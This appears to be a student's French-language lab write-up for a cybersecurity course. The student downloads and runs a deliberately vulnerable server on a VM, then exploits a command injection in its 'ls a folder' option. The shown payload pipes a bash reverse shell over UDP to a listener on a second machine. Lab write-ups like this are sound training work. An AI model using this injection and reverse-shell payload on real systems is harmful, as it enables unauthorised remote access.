 ## Partie 1

### 1. A vos marques

🌞 **Télécharger l'application depuis votre VM**

```cmd
curl -O https://gitlab.com/it4lik/b3-csec-2024/-/blob/main/efrei_server
```

🌞 **Lancer l'application `efrei_server`**

```cmd
LISTEN_ADDRESS=192.168.56.114 ./efrei_server
```

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**

```cmd
[antna@localhost ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```

### 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

```cmd
antna@antna-box:~$ nc 192.168.56.114 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) :
```

### 3. Hackez

🌞 **Euh bah... hackez l'application !**

Du coté du client on se rend compte qu'en choisissant l'option 4 on peut choisir un dossier à ls puis suivi d'un pipe injecter une commande. On injecte donc un revrese shell en bash et on setup un sever d'ecoute sur une autre machine.

```
Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : /etc | sh -i >& /dev/udp/192.168.56.115/4242 0>&1
```

```
nc -u -lvp -4242
```


🌟 **BONUS : DOS l'application**

- il faut rendre l'application inopérante
- pour être précis, un DOS ici, c'est qu'aucun autre client ne doit pouvoir se connecter
- utilisez un autre vecteur que la vulnérabilité précédente pour provoquer le DOS


> ➜ [**Lien vers la partie 2**](./part2.md)